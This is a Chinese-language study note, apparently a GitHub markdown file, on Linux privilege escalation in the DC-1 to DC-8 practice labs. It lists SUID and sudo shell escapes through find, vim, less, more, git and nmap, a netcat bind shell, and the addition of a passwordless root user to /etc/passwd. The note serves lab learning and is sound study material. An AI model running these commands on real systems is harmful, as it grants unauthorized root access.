










- [基础概念](#基础概念)
- [基础信息收集](#基础信息收集)
- [提权操作](#提权操作)
  - [SUID提权](#suid提权)
    - [利用find命令提权](#利用find命令提权)
    - [利用git](#利用git)
    - [利用vim/vi](#利用vimvi)
    - [利用bash](#利用bash)
    - [利用less](#利用less)
    - [利用more](#利用more)
    - [利用nmap](#利用nmap)
    - [利用exim4](#利用exim4)
  - [利用内核漏洞](#利用内核漏洞)
  - [利用root无密码执行](#利用root无密码执行)
  - [利用环境变量](#利用环境变量)
  - [利用存在漏洞的命令](#利用存在漏洞的命令)
  - [利用第三方服务提权](#利用第三方服务提权)
- [参考链接](#参考链接)


# 基础概念
1.suid

2./etc/sudoers文件

3.ls -la 


# 基础信息收集


# 提权操作
提权思路：通过信息搜集查找可利用的文件/脚本/软件/用户/内核漏洞/恶意劫持/特定平台漏洞/框架漏洞/组件/等，写入或执行恶意命令/脚本/shell/添加高权限用户，提权成功，然后进一步利用。

## SUID提权

**suid:Set owner User ID up on execution**

SUID是一种**对二进制程序进行设置的特殊权限**，可以让二进制程序的执行者**临时**拥有属主的权限（仅对拥有执行权限的二进制程序有效）。

例如，所有用户都可以执行passwd命令来修改自己的用户密码，而用户密码保存在/etc/shadow文件中。仔细查看这个文件就会发现它的默认权限是000，也就是说除了root管理员以外，所有用户都没有查看或编辑该文件的权限。但是，在使用passwd命令时如果加上SUID特殊权限位，就可让普通用户临时获得程序所有者的身份，把变更的密码信息写入到shadow文件中。

当用户在执行程序/文件、命令时，会获取文件的所有者的权限以及所有者的UID和GID。
--》因此可以利用拥有root权限的文件，来获取root权限

查找拥有root权限的suid文件的命令如下,不同系统可能命令不同

```bash
    find / -perm -u=s -type f 2>/dev/null 
    find / -user root -perm -4000-print2>/dev/null 
    find / -user root -perm -4000-exec ls -ldb {} \;
```

用户可以输入自己的密码或者不需要密码在root权限下执行命令，在/etc/sudoers中配置

`sudo -l 可以查看当前用户的权限`

```bash
    touhid ALL = (root) NOPASSWD: /usr/bin/find
    # 表示输入 touchid 的密码，可以 sudo 执行 poweroff 命令。
    touhid ALL = (root) NOPASSWD: /usr/bin/find
    # 不输入密码,可以 sudo 执行 find 命令
```


**命令解释：**

* / 表示从文件系统的顶部（根）开始并找到每个目录
* -perm 表示搜索随后的权限
* -u=s表示查找root用户拥有的文件
* -type表示我们正在寻找的文件类型 f 表示常规文件，而不是目录或特殊文件
* 2表示该进程的第二个文件描述符，即stderr（标准错误）
* \> 表示重定向  
* /dev/null是一个特殊的文件系统对象，它将丢弃写入其中的所有内容。


常见用于提权的Linux文件有：Nmap, Vim, find, bash, more, less, nano, cp

eg:靶场DC-1中拥有root权限的可执行文件如下：



### 利用find命令提权

**靶场练习：DC-1**

```bash
    #利用exec命令提权
    mkdir test  #创建test文件夹
    touch test  #或者创建test文件
    find test -exec "whoami" \;  #利用exec查看当前用户，输出root，说明当前命令是以root权限执行的
    find test -exec '/bin/sh' \;  
```




```bash
    #利用命令反弹提权
    find test -exec netcat -lvp 5555 -e /bin/sh \;
    netcat 服务端IP 5555
```




### 利用git
**靶场练习：DC-2**

sudo git -p help:强制进入交互状态，让页面缓冲区无法显示全部信息



### 利用vim/vi

```bash
#打开vim，按下ESC
:set shell=/bin/sh
:shell
#其他方式
sudo vim -c '!sh'
```

### 利用bash
```bash
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
```

### 利用less
```bash
less /etc/passwd
!/bin/sh
```

### 利用more
```bash
more /home/pelle/myfile
!/bin/bash
```

### 利用nmap
**靶场练习：DC-6**

有时候管理员会给nmap加上sudo权限，因为在进行UDP或TCP的SYN扫描时，需要有root权限



```bash
    # 5.2以后，通过加载自定义脚本执行命令
    echo 'os.execute("/bin/sh")' > getshell
    sudo nmap --script=getshell
    #or 需要sudo权限  5.2以前
    nmap -interactive 
    !sh
```


### 利用exim4
**靶场练习：DC-8**

主要利用exim4爆出来的漏洞来进行提权

kali中`searchsploit exim`可以搜索与exim相关的利用exp，需要先确定exim的版本信息





## 利用内核漏洞


## 利用root无密码执行
**靶场练习：DC-4**

利用有sudo权限的程序向/etc/passwd文件中写入，增加一行--》增添一个用户

`echo "admin::0:0:::/bin/bash"|sudo teehee -a /etc/passwd`  新增一个admin用户，权限为root

增加的用户密码字段设置为空，UserID和GroupID为0表示root用户

/etc/passwd各字段含义为：
`username:password:User ID:Group ID:comment:home directory:shell`


## 利用环境变量



要求当前用户的path变量下有/usr/sbin，可考虑下面的方法

编译一个可执行文件，编译完后会发现该文件有suid权限
```c
    #include<unistd.h>
    void main()
    {
    setuid(0);
    setgid(0);
    system("cat /etc/passwd");
    }
    // aaa.c
    //gcc test.c -o shell

```
可以执行执行编译好的shell，执行结果如下：


## 利用存在漏洞的命令


## 利用第三方服务提权


# 参考链接
- [Drupal使用手册](https://drupalchina.gitbooks.io/begining-drupal8-cn/content/)
- [Linux SUID 提权](https://jlkl.github.io/2020/01/27/Web_15/)
- [Linux提权的简单总结](https://xz.aliyun.com/t/7924#toc-0)

